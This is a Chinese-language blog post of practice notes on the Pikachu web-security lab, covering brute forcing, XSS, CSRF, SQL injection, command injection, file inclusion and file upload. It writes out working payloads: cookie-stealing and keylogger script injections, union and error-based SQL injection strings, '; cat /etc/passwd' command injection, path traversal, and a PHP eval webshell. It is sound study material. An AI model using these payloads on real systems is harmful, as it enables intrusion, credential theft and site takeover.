

[NOTE] Pikachu靶场练习笔记
前言
是针对Pikachu靶场的练习笔记
是在搞完WebGoat之后
想着再找一个靶场玩玩
环境
攻击者：Kali Linux | 10.10.10.1
靶机：Ubuntu | 10.10.10.2 | PHP 5.5.38+Apache 2.4.39+MySQL 8.0.16（小皮面板）
暴力破解
从来没有哪个时代的黑客像今天一样热衷于猜解密码——奥斯特洛夫斯基
基于表单的暴力破解
直接爆破就完事了
一个启示：
最好能够根据网站本身，添加一些特殊字段
如网站名及其变式啥的，作为payload之一
（pikachu/pikachu）
验证码绕过（on server）
呃，倒是可以OCR
看眼提示：
这个验证码好像一直有效哎！
看看，发现只要用户没有请求新的验证码，上一个验证码就会一直有效
因此可以直接爆破（启示：要注意验证码时效性）
前提是发送请求的验证码要与页面显示的一致（保证没有请求新的验证码）

观察下验证码的元素：

前端是请求时加载一次，之后只有在点击时才重新刷新
刷新的参数好像是时间戳，但是传入固定的一个时间戳也会刷出不同的验证码
验证码绕过（on client）
验证码明文印在页面上？？？
哦没事了，验证码只是前端验证
验证码通过后的包直接抓上来重放就完事了
比上面那题还离谱
token防爆破
表单多了个隐藏field：<input type="hidden" name="token" value="526966173722ea46a5804573073">
虽然是token，但是直接写在HTML上了
爆破方向：
- Burp Suite——定义宏操作每次请求更新token
- 自写脚本
Burp Suite
先写下使用Burp Suite的方法
==日后考虑将这里搬去“Burp Suite进阶使用”之类的学习笔记==
有两种做法
第一种方法
来自于这里
设置模式为“Pitchfork”（草叉模式），设定如下变量：

可以看到，用户名不作爆破
从响应包中抓取token的匹配值：

然后第二个payload，选择类型为“Recursive grep”，再选择刚提取的token变量：
然后注意爆破线程只能设置为1，因为要使用到提取的token值是单次传递的：

由于没有对用户名字段进行爆破，所以最后爆破结果仅针对admin：

另外试了试Cluster bomb对三个变量进行爆破，发现不太奏效
前面的请求中用户名和密码都有，但是token那块是空的
第二种方法
来自于g0tmi1k的文章
首先添加会话处理规则（Session Handling Rules）：Project options/Options -> Sessions -> Session Handling Rules -> Add

这里定义的规则可以让Burp Suite在每次作出请求前
都检视下是否有对应的适用规则
defined scope for particular tools, URLs or parameters
输入规则描述，并选择规则行为为“Run a macro”（执行宏，因为要替换token）：Details -> Rule Action -> Add -> Run a macro

这种规则会通过运行宏或发送一连串定义好的请求
并基于宏的运行结果或请求的返回，自定义地更新参数或cookies
选择新建一个宏：Add

然后选择想要运行宏的请求包：

这里可以过滤出想要的请求包
要注意的是，记录宏会要求使用正在代理的浏览器，因此此时应该关闭拦截
然后进一步编辑这个宏：Macro description处可以填入这个宏的说明信息
点击Configure item可以对某一选中的请求包进行宏操作编辑

可以对宏如何操作该请求包的cookie和参数等进行编辑
由于我们需要从每次响应中获取token
因此应该自定义一个响应参数：Custom parameter locations in response->Add

之后就是从请求包的响应中定义/提取我们要的参数的匹配模式/匹配位置：Parameter name中填入这个参数的参数名（任意填，可以是“fish”，不和要替换的请求参数匹配？）【注意】这个参数名应当和我们想要替换的请求参数名相同，这样后续才能成功匹配上要替换/操作的请求参数Start after expression/End at delimiter中填入参数值的左右界限，建议自己从响应中拖拽选中，这样Burp Suite会自动填入这两个字段

之后一路OK，回到会话处理规则的宏操作定义处
- 这样我们就定义了一个会话处理规则
- 这个规则会执行一个宏操作
- 这个宏操作会对我们选定的请求的响应中提取一个token值
- 并把这个值存在自定义名字的参数中
最后勾选“允许URL不匹配”：
勾选Tolerate URL mismatch when matching parameters (use for URL-agnostic CSRF tokens)

最上面选中的是我们刚定义好的宏操作，作用是提取token的值
==下面一个箭头指向，才是应用把token值替换到我们每次请求的token是把所有参数（即username、password、token甚至加上submit）都作指定的操作——更新/替换==
再下面一个箭头指向，应该是起更新cookie的作用
之后选择该规则的监视目标以及使用范围：Scope->Tools Scope->仅勾选Intruder（因为我们只在爆破里用）URL Scope->Use suite scope [defined in Target tab]（选择使用Burp Suite的监视窗，但理论上也能Use custom scope，指定到Pikachu指定的页面就🆗）
之后将目标站点放到Burp Suite的监视窗里（由于上述的选择）：Target->Site map->{目标站点}->Add to scope
之后可能会弹出一个提示窗，提示说什么“要不要停止记录监视窗口之外的站点的代理记录”之类的，随便选

这样，Burp Suite的监视窗口就会多出我们的靶机站点：

之后正常执行爆破，集束炸弹模式，线程正常设置，注意token参数不要设置payload，因为宏操作会自动完成替换：

爆破正常完成，且每个请求的token值都是被替换的：

因为我们定义了一个会话操作规则，会对选定监视窗口内的每个站点在指定的操作范围内进行检视，若有匹配的站点和适用范围，则应用上相应的规则
这里我们的规则是在爆破处理中运行一个宏，这个宏会在每次请求前都把token值替换成请求响应中给出的新值
这样Burp Suite就完成了自动化更新token并进行爆破的功能，绕过了站点对爆破攻击的弱防御。
==剩下的疑问就是，这个宏操作到底是怎么把每次提取的token值匹配到每次请求的token参数上去的？？建议额外进阶学习Burp Suite的高阶用法==
两种方法比较
第一种就比较简单，但缺点也比较明显：
- 只能针对某一特定用户进行密码爆破
- 线程只能为1，效率低
第二种虽然复杂了点（搞懂了过程也就那样吧….吧），但优势明显
学会会话处理规则、监视窗和宏操作等好处多多
自写脚本
没啥好说的，权当练练Python、requests还有BS4
直接上代码
1 | import requests |
Cross Site Scripting
概述
一般的防御方法：
- 输入过滤：不允许可能导致XSS的字符输入
- 输出转义：对输出到前端的内容进行适当转义
归纳：哪个站点有XSS，就可以得到哪个站点的cookie
攻击者端
最简单的情况，应该就是通过XSS捞前端用户的cookie
靶场本身提供了一个XSS的攻击者后台，模拟攻击者端可以进行的行为，这里给出了以下三种：
cookie搜集
信息钓鱼
键盘记录
实际情况中攻击者会拥有自己的一台服务器
具体怎么写代码去利用，下面就研究研究别人的博客，并分析一波攻击代码
cookie搜集
攻击者服务器上部署如下的捕获cookie等信息的API，文件名cookie.php：
1 | ` |
设定类似的访问URL：http://www.pikachu.com/pkxss/xcookie/cookie.php
通过指定参数来传递要捕获的信息：'http://www.pikachu.com/pkxss/xcookie/cookie.php?cookie=' + document.cookie
如有必要，攻击者可以自己整一个专门用于查看和管理捕获信息的页面
然后就是社工、钓鱼，构造一些让人防不胜防的恶意连接或内容给受害者
通过存在XSS漏洞的站点，来让受害者发送特定内容给攻击者
即让受害者通过XSS漏洞发送类似于这样的请求：
http://www.pikachu.com/pkxss/xcookie/cookie.php?cookie=' + document.cookie
具体例子见反射型XSS（GET）以及反射型XSS（POST）
信息钓鱼
攻击者可以先写好下面的钓鱼脚本，文件名fish.php：
1 |
|
可能需要事先理解一下Basic认证的概念
大概就是，一种很基本的HTTP认证方式
客户端请求
服务端判断，没有认证就返回401“未认证”，并给出认证消息
具体是在响应header中添加WWW-Authenticate头
例如WWW-Authenticate: Basic realm="你还没有认证"
客户端收到这个header头，检查到Basic，就会弹出输入框要求认证用户发送认证内容
具体是在请求header中添加Authorization头
例如Authorization: Basic {BASE64编码后的认证内容}
JWT好像用的就是这个？注意是编码，不是加密服务端检查认证，返回200/403，然后进一步处理
此后用户每次请求都带上
Authorization头
上述fish.php中的代码大概就是实现了一个简单的Basic弹窗认证
通过迷惑性的弹窗内容，让用户输入敏感信息
然后将敏感信息发送给攻击者
具体例子见存储型XSS
键盘记录
攻击者可以先写好下面的键盘记录JS脚本
放到攻击者服务器，但是被加载到受害者浏览器的
命名为rk.js
1 | function createAjax() { |
接着攻击者还得准备一个接收记录的API：rkserver.php
1 |
|
下面要做的，就是在存在存储型XSS漏洞的页面
打入一个payload，使受害者加载rk.js，并确保JS脚本能够起作用（例如能跨域）
这样受害者的键盘记录都会被攻击者记录
具体例子见存储型XSS
反射型XSS（GET）
先看看有没有回显，输入，有
try，能X到本页面，发现有前端长度限制，改HTML，X爆
（实际上不用改前端HTML也行，直接修改URL中的参数即可）
观察URL，是GET传递payload：http://www.pikachu.com/vul/xss/xss_reflected_get.php?message=Archeri&submit=submit
弹窗测试成功：http://www.pikachu.com/vul/xss/xss_reflected_get.php?message=%3Cscript%3Ealert(%22XSS%22)%3C/script%3E&submit=submit
下面模拟攻击者发现了这里有反射型XSS漏洞-GET
攻击者准备好了上述的恶意服务器，构造XSS脚本：<script>document.location="http://www.pikachu.com/pkxss/xcookie/cookie.php?cookie="+document.cookie;</script>
然后形成payload构造钓鱼连接，注意URL编码处理，否则不一定能起作用：http://www.pikachu.com/vul/xss/xss_reflected_get.php?message=%3Cscript%3Edocument.location%3D%27http%3A%2F%2Fwww.pikachu.com%2Fpkxss%2Fxcookie%2Fcookie.php%3Fcookie%3D%27%2Bdocument.cookie%3C%2Fscript%3E&submit=submit
然后通过社工方法，引诱受害者点击/加载链接
这里直接地址栏输入访问….
结果是，会短暂出现Pikachu靶场的页面，随即跳转至百度
然后看看攻击者后台，收集到了cookie记录：

反射型XSS（POST）
登录框，要求先登录？
那就admin/123456登进去，然后同样是一样的输入框
测试XSS，能X到本页面，X爆
但是这次URL没有显示输入
抓包看看，发现是POST方法，message字段存在XSS漏洞
查看页面源码
表单action字段为空，加上页面本身是php页面
说明数据是通过POST提交给页面本身，页面本身再作出响应
所以URL直接钓鱼这一块可能不太行
得自己构造恶意页面，包含一个恶意表单
来将信息发送到攻击者捕获cookie的API
于是有如下钓鱼页面，文件命名为post.html：
1 | <html> |
解析一下：
- body的表单那里，提交目标就是发现的有XSS漏洞的页面
- 根据之前的测试结果，将
message字段的默认值设置为XSS payload - 关键是头部那里的JS脚本，设置成了页面加载时自动提交表单（window.onload）
这样攻击者把这个页面部署到恶意服务器上
再形成这个页面的钓鱼链接
就可以勾cookie了
如这个钓鱼链接：http://www.pikachu.com/pkxss/xcookie/post.html
一点，短暂显示Pikachu靶场页面，随即跳转百度
查看cookie捕获记录，有了用户名和密码的hash：

存储型XSS
一个留言板，留言后回显到页面
尝试XSS，有，X爆
X一个弹框，留在了页面上
之后每次访问这个页面都会弹框
这个时候，大概就不用考虑什么社工方法去钓鱼
因为攻击者可以直接把payload部署在留言板上
每个看到留言板的人都会中招
这时候可利用的点也比较多了吧？应该
先来试试简单的盗cookie
payload：一般路过噶迪恩<script>document.write('<img src="http://www.pikachu.com/pkxss/xcookie/cookie.php?cookie='+document.cookie+'" width="0" height="0" border="0" />')</script>
然后页面上就出现了这个看起来很普通的留言：

但实际上，每个用户浏览到这个留言，都已经偷偷地把cookie发送给了攻击者
然后试试钓鱼
根据上面讲到的fish.php，在留言板打入以下payload：一般路过噶迪恩<script src="http://www.pikachu.com/pkxss/xfish/fish.php"></script>
其他用户一浏览就会弹出下面的输入框：

评论没加载完就弹窗，而且弹窗信息乱码，一看就知道有诈。。。。
但是下面不管输入多少次，发现都会一直会弹窗
debug一下，发现传输用户名密码后PHP那边根本不会设置$_SERVER['PHP_AUTH_USER']和$_SERVER['PHP_AUTH_PW']这两个字段
所以一直没有通不过逻辑检测，会一直要求认证
冲浪，了解到在Apache里面，若想通过PHP使用Basic认证，只有将PHP以模块方式运行才有效。而小皮面板安装时，默认是按CGI模式安装PHP的，因此上面的fish.php不能正常起作用
解决方法就是重新部署PHP在Apache中的运行模式
具体就是编辑Apache的httpd.conf，将类似于下面的配置起作用：LoadModule php7_module "D:/php-7.4.9/php7apache2_4.dll"AddType application/x-httpd-php .phpPHPIniDir "D:/php-7.4.9"
然后重启服务什么的
要在小皮面板里改就比较麻烦
所谓有利有弊。。。。
==有缘再弄==
最后再试试键盘记录
根据上面讲到的rk.js，打入下面的payload
一般路过馆长<script src="http://www.pikachu.com/pkxss/rkeypress/rk.js"></script>
多了个人畜无害的留言：

但是恶意脚本已经被加载进了每个浏览到这条评论的用户的浏览器
都已经被记录下键盘痕迹了

关于跨域
概念：协议、域名、端口任一不同，则不同源
不包括路径！
不同源的资源传输称为跨域
浏览器默认的同源策略：不同源之间不能使用JS进行交互
除非特别配置
最常见的就是添加header：Access-Control-Allow-Origin:x/com
来指定允许跨域的地址
如果接收数据的API取消了这个header：
1 | //设置不允许被跨域访问（注释掉） |
那就会出现这种情况：
发现注释掉没用，还是可以记录
这是因为攻击者服务器和靶场是同源的（都是一个站点下的内容）。。。。
==得考虑租台云服务器了==
DOM型XSS
输入框，输入提交，下方生成一个链接
输入“123”，点击链接：http://www.pikachu.com/vul/xss/123
那结果肯定是NOT FOUND了
检视一下元素，发现下面有个<div id="dom"></div>，一开始是空的
提交之后变成了<div id="dom"><a href="123">what do you see</a></div>
就是动态添加了一个a标签
看看对应的脚本
1 | function domxss() { |
就是通过DOM编程，动态修改文档节点
倒有点像是注入，尝试主动闭合，构造下面的payload：'></a><script>alert('XSS')</script><a>
元素变成：

但是并没有弹窗，原来是script标签不能嵌套在div标签中
换成考虑：'></a><img src="123" onerror=alert('123') /><a>
完成弹窗，证明有DOM型XSS
或者是' onclick="alert('xss')">
HTML变成这样：<a href="" onclick="alert('xss')">'>what do you see?</a>
一点击链接就会弹窗
下面考虑利用，首先抓个包看看，发现抓不到
因为是通过本地JS脚本执行的函数，没有数据包流出
即是纯前端的操作
那咋利用？
有些DOM XSS操作也是会在URL中拼接输入的，这种就钓鱼链接
但是上面的例子没有拼接到URL
难道只能控制受害者主机？？？
补充点DOM的知识
DOM相当于在前端提供了一个通过JS去对HTML进行操作的接口
造成DOM型XSS的原因：
前端输入被DOM获取，通过DOM又在前端输出
跟反射型和存储型比起来，它是不经过后台交互的（纯前端）
因此DOM型比一般的反射型更加难防护
上网找找利用场景
找不到没有URL拼接的DOM型利用场景啊啊啊啊来一手物理黑客
DOM型XSS-X
奇怪的题目，一个脚本：
1 | function domxss() { |
发现有针对URL的操作，具体是截断URL，然后替换‘+’为空格
方便XSS
也太好人了吧
然后HTML也很奇怪：

表单是GET提交到本页面，会拼接URL
但是那个submit，也没有指出会执行什么操作
输入“123”，点击，变成这样：

URL变成：http://www.pikachu.com/vul/xss/xss_dom_x.php?text=123
text参数后面跟了输入内容（哦？）
多了个div，放了个执行上面脚本的链接
点击链接，DOM操作生成节点，类似于上面的DOM型XSS
检测到有XSS：'><img src="e" onerror=alert('XSS') />
直接打入payload：'><img src="e" onerror=document.location="http://www.pikachu.com/pkxss/xcookie/cookie.php?cookie="+document.cookie; />
生成链接：
http://www.pikachu.com/vul/xss/xss_dom_x.php?text=%27%3E%3Cimg+src%3D%22e%22+onerror%3Ddocument.location%3D%22http%3A%2F%2Fwww.pikachu.com%2Fpkxss%2Fxcookie%2Fcookie.php%3Fcookie%3D%22%2Bdocument.cookie%3B+%2F%3E
然后利用这个链接，再诱惑受害者点击下一个按钮，就可以钓到cookie了
XSS之盲打
一个表单，POST提交到原页面
提交后仅回显新增的一个p标签，没有输入内容直接回显
两个输入框都试了试XSS，但是没什么效果，一点回显都没有
看看提示，原来管理员有个后台：
http://www.pikachu.com/vul/xss/xssblind/admin.php
登进去看看，已经弹窗被弹爆了
看来这类盲打，意思是猜测结果会被提交到后台
内容不会显示在原页面
打的是管理员，好像比较六臂一点
那简单了，直接textarea输入框打入payload：<script>document.location="http://www.pikachu.com/pkxss/xcookie/cookie.php?cookie="+document.cookie;</script>
然后发现完了，管理员进不了后台了，无限跳转至百度
remake
再来手钓鱼：人畜无害朱馆长<script src="http://www.pikachu.com/pkxss/rkeypress/rk.js"></script>
后台情况，很正常：

但是键盘操作已被记录
XSS之过滤
阁下，请问你觉得人生苦短吗？
提交“Yes”，URL拼接，且回显到了原页面：

试试直接X，但是好像被过滤了：
payload：<script>alert("XSS")</script>
结果：别说这些'>'的话,不要怕,就是干!
但是URL里面显示正常
简单试试大小写混拼：SCRipt，发现就绕过了
一些绕过思路
这里是OWASP的绕过备忘录
==有机会看看吧，也在另一份笔记里写写==
这里根据别人的博客简单记记
总体思路分三类（当然可以抓包修改重放嗯绕）：
- 转换
- 大小写混拼，如
<ScRiPt> - 双拼，如
<scr<script>ipt> - 注释干扰，如
<scr<!---->ipt>
- 大小写混拼，如
- 编码
- 要求输出时浏览器能对编码进行识别，变成正常标签从而执行
- 如
alert('xss')不能URL编码：alert%28%27xss%27%29
但能HTML编码：alert('xss')
- 其他标签或函数
- 比如换成img、frame等标签
- 比如换成onload等函数触发
当然也可以综合使用，想怎么绕怎么绕
XSS之htmlspecialchars
输入框，GET提交到原页面
输入“nm”，提示输入已被记录，并且出现跳到“nm”的链接，有回显
尝试主动闭合来X：' onclick=alert(123) '
点击就X到了
冲浪看看htmlspecialchars的资料
会把“&”、“<”、“>”、“””转义成HTML实体
默认是不过滤单引号的
过滤单引号需要加上参数ENT_QUOTES
最后钓鱼链接：http://www.pikachu.com/vul/xss/xss_02.php?message=%27+onclick%3Ddocument.location%3D%27http%3A%2F%2Fwww.pikachu.com%2Fpkxss%2Fxcookie%2Fcookie.php%3Fcookie%3D%27%2Bdocument.cookie%3B+%27&submit=submit
XSS之href输出
还是输入框，GET提交到原页面
输入www.baidu.com？？？
输入www.pikachu.com，生成了一个a链接，输入拼接到了href属性当中
然后发现怎么主动拼接和绕过都不好使
看眼源码，发现这次htmlspecialchars也过滤了单引号
瞅眼提示：
a标签里面的href，img里面的src属性,有什么特殊的么
原来上面的两个属性都可以使用javascript伪协议，从而可以执行JS脚本
于是payload：javascript:alert(123)
点击链接后弹窗
由于单引号也被过滤了，于是参考OWASP的备忘录，整出来这个payload：
1 | javascript:document.location=String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 119, 119, 119, 46, 112, 105, 107, 97, 99, 104, 117, 46, 99, 111, 109, 47, 112, 107, 120, 115, 115, 47, 120, 99, 111, 111, 107, 105, 101, 47, 99, 111, 111, 107, 105, 101, 46, 112, 104, 112, 63, 99, 111, 111, 107, 105, 101, 61)+document.cookie; |
呃
XSS之JS输出
输入框，GET提交到原页面
特殊之处在于输入是回显到了一段script标签中：

那就主动闭合，再打入自己的脚本标签：';</script><script>alert("XSS")</script></script>
XSS成功，HTML元素变化：

其他需要注意的是，script脚本内部不会对实体编码进行解释
以及JS的输出点应该使用‘\’对特殊字符进行转义
补充：其他一些钓鱼payload
1 | <script> |
1 | <script> |
CSRF
概述
关键在于写操作
与XSS的区别：
CSRF：借权限
XSS：偷权限
CSRF（GET）
先登录，一个能改信息的页面，然后发现提交修改信息的操作是GET请求
而且URL里没有token等鉴权参数
那直接构造钓鱼链接给受害者点即可：
例如进行一个性的变：http://www.pikachu.com/vul/csrf/csrfget/csrf_get_edit.php?sex=你跌&phonenum=18656565545&add=chinana&email=lili%40pikachu.com&submit=submit
模拟受害者点击之后，性别变成“你跌”了
退出登录清除登录态，然后就不能钓鱼修改链接了
另外提一手URL压缩
本来百度有个短网址服务，但是现在已经禁止个人用户创建新的短网址了
CSRF（POST）
和上面差不多，但是变成POST提交参数，钓鱼URL没用了
那就钓鱼页面，POC：
1 |
|
需要注意的是：
- 钓鱼页面需要放在公网（就不是file协议之类的）
- 注意自己添加action
- 注意表单的提交类型（enctype）要对应上（抓包看看）
CSRF Token
GET提交请求，但是多了个随机生成的token字段
于是要构造钓鱼URL的话就要攻击者添加上那个token
这就有点难办了。。。。
（WeBank还说很容易绕过来着？？？？我太菜了）
上网查阅，有两种方向：
- 一种是希望网站开发人员犯蠢
- 一种是结合其他漏洞打
所谓希望开发人员犯蠢，无非就是期望开发者对token的使用和检验不完整
偏向于公司内部进行安全测试的思路：
- 不同用户token互通
- 替换成相同长度的值
- 删除token字段，赌他检测到没有就跳过检验
- 识别/推断token算法
- 仅使用token的静态部分
意思是，一些token是{固定部分+动态部分}来组成的
可以试试仅用固定部分来提交，说不定能过
不如去中奖
结合其他漏洞打，首先是涉及到一个跨域的问题
比如有如下POC：
1 | <script type="text/javascript"> |
大概是，使用JS，通过一个看不见的框架偷偷获取登陆页面的token
然而由于同源策略，这样是行不通的
所以一般结合诸如XSS之类的漏洞，来搞token
寄
SQL注入
概述
啥也没讲
有个就是防御策略：变量过滤、参数化
数字型注入（POST）
99：显示userid不存在
99 or 1=1：全注了出来，数字型注入
99 union select 1,2：判断出有两列
99 union select database(), user()：知道数据库及用户
99 union select concat(table_name),2 from information_schema.tables where table_schema=database()：知道所有表名
99 union select concat(column_name),2 from information_schema.columns where table_schema=database() and table_name="users"：知道users表的所有列
99 union select concat(username),concat(password) from pikachu.users：搞到所有用户名及对应密码的哈希
上sqlmap：也没啥好说的，注爆啊
但是还是不能写入shell
字符型注入（GET）
'：You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ‘’’’’ at line 1
然后尝试BP repeater注入结果被小皮防火墙截了，搞一搞
然后发现不是防火墙的问题
是URL编码的问题，编码之后就能够正常注入了
（好想要正版的BP专业版啊）
' or '1'='1：全注出来了
' union select 1,2 %23：判断出回显两列
剩下的和上面差不多
搜索型注入
先事先简单了解下模糊查询的概念
大概，主要是like语句，与‘%’的配合使用
例如select * from users where username like '%婉%'
这样会搜索出username像“X婉”、“X婉X”、“婉XXXX”等有“婉”的记录
几个主要的符号：
%：表示任意0个或多个字符。可匹配任意类型和长度的字符，有些情况下若是中文，请使用两个百分号（%%）表示
_：表示任意单个字符。匹配单个任意字符，它常用来限制表达式的字符长度语句
[]：匹配一个正则表达式
剩下的自己看博客去吧，去吧去吧去吧
查找框
查询一个“l”，回显“allen”、“lucy”、“lili”
猜测SQL语句类似于select name,id,email from users where name like '%{input}%'
所以猜测要闭合的有百分号和引号
尝试地址栏注入
zwc：0o。..没有搜索到你输入的信息！
zwc%' or 1=1 %23：全注出来了
zwc%' union select 1,2,3 %23：判断列数为三
剩下的和上面差不多
XX型注入
管tmd的什么型，能够制造出闭合，就是本事
好提示，看来是要自己探索下语句格式
'：check the manual that corresponds to your MySQL server version for the right syntax to use near ‘’’’)’ at line 1（WTF）
') or 1=1 %23：全注
下略
“insert/update”注入
先注册一个，然后登入
然后修改个人信息
看一下数据包，修改操作好像只是POST一些参数上去
其中姓名字段不能改，是固定的
猜测后端的SQL语句类似于：update table set field1='XXX',field2='XXX' where name='Archeri'
如果存在注入，那可能存在这种情况：主动闭合，注释掉后面的‘where’限定
导致所有用户都被修改信息
新注册一个user1用户，其余信息都是‘xxx’
然后回到Archeri用户，修改信息：
然后发现了这个报错：check the manual that corresponds to your MySQL server version for the right syntax to use near ‘qqq’,address=’qqq’,email=’qqq’ where username=’Archeri’’ at line 1
性别一栏换成这个：daddy'; #
然后发现成功修改了user1用户的性别
下面注出其他信息
性别一栏：hack',phonenum=database() where username='Archeri'; #
手机一栏成功变成了当前数据库名
注表名：hack',phonenum=(select group_concat(table_name) from information_schema.tables where table_schema=database()) where username='Archeri'; #
下略
不小心忽略了注册页面也可以注入
姓名填入一个引号：check the manual that corresponds to your MySQL server version for the right syntax to use near ‘xxx’),’’,’’,’’,’’)’ at line 1
姓名填入')，密码随便填：check the manual that corresponds to your MySQL server version for the right syntax to use near ‘’,md5(‘asd’),’’,’’,’’,’’)’ at line 1
看来还有个md5处理密码需要看看怎么闭合下
其实也不用处理，只是影响到这个账号能不能正常登入而已
既然为注册，那猜他SQL语句应该是类似为：insert into table (field1,field2) values ('XXX','XXX')
updatexml注入
完整报错信息，且没有别的很好的回显位置，考虑使用updatexml函数注入
注出当前数据库用户名（注意列数要一致）：aaa' or updatexml(1,concat(0x7e,(select user()),0x7e),1),md5('bbb'),'','','','') #
剩下的就改updatexml函数里面中间的字符串参数
“delete”注入
一个留言板，发表后能删除
看看数据包，留言用POST，删除用GET
删除的GET有一个id参数，怀疑这里是注入点
参数设为‘’’：check the manual that corresponds to your MySQL server version for the right syntax to use near ‘’’ at line 1
完整报错信息，且没有别的很好的回显位置，考虑使用updatexml函数注入
payload（数字型不用引号）：?id=9999 or updatexml(1,concat(0x7e,(select database()),0x7e),1)
“http header”注入
登录，然后信息显示有IP、user agent、http accept、本次连接端口
可能是把发送请求包的header印了出来
抓包重放改了两个header试试，还真是

agent打入一个引号，有完整报错信息：check the manual that corresponds to your MySQL server version for the right syntax to use near ‘testestestest’,’54014’)’ at line 1
猜SQL：select 'IP','AGENT','ACCEPT','PORT' ...
但是agent打入这个却会完整显示出来：aaa',database(),user()) #

updatexml()倒是可以：' or updatexml(1,concat(0x7e,(select database()), 0x7e),1),1,1) #
报错盲注
呃，又来
存在用户（之前注册的）就给出信息，没有就给出一条固定的错误信息
这里一定要先使前面的条件成立，即要先有一个存在的用户，例如：Archeri' and 1=1 #可以Archeri' and 1=2 #不行' or 1=1 #不行
其他情况需要自行判断怎么盲注
Archeri' and length(database())=7 #
Archeri' and ascii(substr(database(),1,1))>97 #
剩下的略了，看看sqli-labs靶场的笔记
总之就是熟悉length()、substr()、ascii()以及limit等的使用
时间盲注
和上面不一样的是，不管输入的用户名存不存在，回显都是统一的
但是可以用sleep()函数结合逻辑关系的优先级来实现时间盲注，例如：lili' and database()='pikaccc' and sleep(5) #很快回显lili' and database()='pikachu' and sleep(5) #有明显延迟
这样就可以达到盲注的效果
下略
宽字节注入
主要是利用了GBK系列编码，将两个字节当成是一个中文字符的原理
相关配置为：set character_set_client = gbk
一般为引号被加上反斜杠转义的情况1' and 1=1 #->1\' and 1=1 #
相当于查询id为‘1’ and 1=1 #’的信息
但是可以主动加上一个‘%df’1%df' and 1=1 #->1%df\' and 1=1 #->1%df%5c' and 1=1 #->1輼' and 1=1 #
相当于查询id为‘1輼’的信息，然后执行and后面的判断
我这里要改改MySQL的配置文件，因为他默认字符集是utf8
（但是一改就会报错，傻逼小皮）
RCE
概述
一般出现这种漏洞
是因为应用系统从设计上出现了提供给用户进行远程命令操作的接口
现在有很多甲方企业有一些“自动化运维平台”，很容易有RCE漏洞
如果需要给前端用户提供操作类的API接口
一定需要对接口输入的内容进行严格的判断
比如实施严格的白名单策略会是一个比较好的方法
exec “ping”
一个输入栏，提醒你输入IP地址去ping
输入“10.10.10.1”，返回ping的终端输出结果
输入; echo "haha"，回显“haha”，有RCE漏洞
可以使用分号串联恶意命令
; whoami; cat /etc/passwd
exec “evel”
输入一个字符串，后台放到eval()函数里执行
填入phpinfo();，页面变成phpinfo页
eval()里面填入的应该是格式正确的PHP代码
File Inclusion
概述
可以使开发人员在一个代码文件中直接包含（引入）另一个代码文件
例如PHP的下列函数：
- include()/include_once()
- require()/require_once()
如果包含的代码文件是一个变量，并且可以由用户控制
那就很可能会有文件包含漏洞
一般分两种：
- 本地文件包含（local）
仅能对服务器本地文件进行包含。一般包含本地敏感文件，或者结合文件上传漏洞来打组合拳 - 远程文件包含（remote）
一般是能够通过url来包含远程文件，危害大得多得多
因此尽量不要让前端用户控制文件包含函数的变量
万不得已也要做严格的白名单过滤
local
一个选择框，选择NBA明星提交，返回相关信息
值得注意的是URL里出现了一个filename=file2.php
估计这里就是包含点
能选择的就只有5个明星，直接提交filename=file6.php
就发现秘密了

包含下不存在的文件，发现一些报错信息把相关路径给了出来
然后想通过这个../../../../../etc/passwd包含一下passwd，却报错：
Warning: include(): open_basedir restriction in effect. File(/etc/passwd) is not within the allowed path(s): (/www/pikachu-master/:/tmp/:/proc/) in /www/pikachu-master/vul/fileinclude/fi_local.php on line 23
Warning: include(/etc/passwd): failed to open stream: Operation not permitted in /www/pikachu-master/vul/fileinclude/fi_local.php on line 23
Warning: include(): Failed opening ‘include/../../../../../etc/passwd’ for inclusion (include_path=’.:/usr/local/phpstudy/soft/php/php-5.5.38/lib/php’) in /www/pikachu-master/vul/fileinclude/fi_local.php on line 23
好像是PHP相关的权限设置问题，吧
remote
界面和上面一样，但是URL变成了这样：filename=include%2Ffile1.php
其实就是代码中去掉了include/的前缀限制，使得能够包含远程文件
例如直接传入一个远程托管的PHP代码地址：https://github.com/zhuifengshaonianhanlu/pikachu/blob/master/footer.php
页面就会变得很奇怪
最后最好学一下PHP include的用法
Unsafe Filedownload
概述
类似于任意文件读取，就是对于下载服务器上资源的参数不加以限制
用户能够任意操作，从而下载服务器敏感文件
练习
一个NBA球星页面，点击连接，GET请求传递filename参数filename=kb.png
从而下载文件
passwd文件有权限限制，../../../../../tmp/mysql.sock能下
Unsafe Fileupload
概述
上传头像、附件等场景
一般防范措施：
- 验证文件类型、后缀、大小
- 验证文件上传方式
- 对上传后的文件进行一定复杂的重命名
- 不要暴露文件上传后的路径
client check
页面说只允许上传图片，哦
POST上传，上传后给出文件保存路径
准备好一句话：<?php @eval($_POST['hack']);?>
直接上传，发现被拦了
抓包改包重放（下面的GET方法要改成POST）

发现就可以了，并且给出了上传路径，蚁剑连连看，OK
总之解释，只在前端做了防护，随便绕
MIME type
页面和上面一样，但是可以选择php文件，变成点击上传后返回错误信息
抓包，将原本的Content-Type：application/x-php->image/png
然后就上传成功了
蚁剑连接，OK
看看源码，发现是只对MIME type进行了检验
getimagesize()
页面还是和上面一样
提示说用了PHP的getimagesize()函数
冲冲浪，是根据图像返回图像的大小及相关信息
估计要求上传的文件中真的包含图像内容
单纯改Content-Type行不通
那就改上传正常图片的那个包，在内容最后面加上一句话
可以上传，并且给出了上传路径（00阶段绕不过）
上传后的是png图片，不会被当成php脚本解析
利用前面的文件包含漏洞打组合拳：http://www.pikachu.com/vul/fileinclude/fi_local.php?filename=../../unsafeupload/uploads/2021/11/23/203135619c5879b7563285308197.png&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
蚁剑能够连接这个URL
Over Permission
概述
越权，就是越权
又有分水平越权和垂直越权两种
权限管理一般应遵循的原则：
- 使用最小特权原则对用户进行授权
